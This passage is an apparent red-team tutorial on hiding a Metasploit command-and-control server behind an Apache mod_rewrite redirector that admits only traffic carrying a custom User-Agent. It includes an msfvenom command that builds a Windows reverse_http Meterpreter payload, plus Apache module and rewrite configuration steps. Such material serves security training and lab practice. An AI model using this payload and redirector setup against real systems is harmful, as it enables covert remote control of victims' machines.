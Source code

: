```shell
a2enmod rewrite && a2enmod proxy && a2enmod proxy_http && a2enmod headers && systemctl start apache2 && systemctl status apache2
```
Now using Meterpreter we can configure various aspects of the HTTP request. It is very common to make slight adjustments to the `User-Agent` in the C2 HTTP/HTTPS payloads as they are in every HTTP request and look more or less the same. For this we can generate a reverse HTTP payload using `msfvenom`.
```shell
msfvenom -p windows/meterpreter/reverse_http LHOST=eth0 LPORT=80 HttpUserAgent=Hacker -f exe -o shell.exe
```
Once the target opens the payload we will get an HTTP request (can verify with [[Wireshark]]) with a `User-Agent: Hacker`.
Now that we have a field we can control in the HTTP request, we can create an `Apache2 mod_rewrite` rule that filters on the user agent `Hacker` and forward it to our Metasploit C2 server.
For this we will be taking the default Apache config and modifying it to our advantage. On Debian based systems, the default config can be found at `/etc/apache2/sites-available/000-default.conf`
The default will look something like this
```shell
kali@kali > cat /etc/apache2/sites-available/000-default.conf | grep -v '#'

<VirtualHost *:80> 
	ServerAdmin webmaster@localhost 
	DocumentRoot /var/www/html 
	
	<Directory> 
		AllowOverride All 
	</Directory> 
	
	ErrorLog ${APACHE_LOG_DIR}/error.log 
	CustomLog ${APACHE_LOG_DIR}/access.log combined 
</VirtualHost>
```
Now we need to enable the Rewrite Engine, add a rewrite condition, and lastly, pass through the Apache 2 Proxy.

To enable the Rewrite Engine, we must add `RewriteEngine On` onto a new line in the `VirtualHost` section.

Now we will be using a Rewrite Condition targeting the HTTP User-Agent. For a complete list of HTTP Request Targets [lookatthis](https://httpd.apache.org/docs/2.4/mod/mod_rewrite.html). Because we only want to match the `User-Agent` "Hacker" we need to use some basic Regular Expressions to capture this, adding a `^` signals the beginning of a string and a `$` at the end of the series, leaving us with `^Hacker$`. This Regex will **only** capture the Hacker User-Agent. We can add this line 
```
ReWriteCond %{HTTP_USER_AGENT} "^Hacker$"
```
to our config to only allow HTTP Requests with the `Hacker` user agent to access Metasploit.

Finally we must forward the request through `Apache2`, through our proxy, to Metasploit. For this we must use the `ProxyPass` feature of Apache's `mod_proxy module`. To do this, we just need to specify the base URI that the request will be forwarded to (in this case "/"), and the target we want to forward the request to. The latter one may vary from setup to setup but it will be the IP of our C2 server. In this case it will use "localhost" and the port that Metasploit will be listening into.
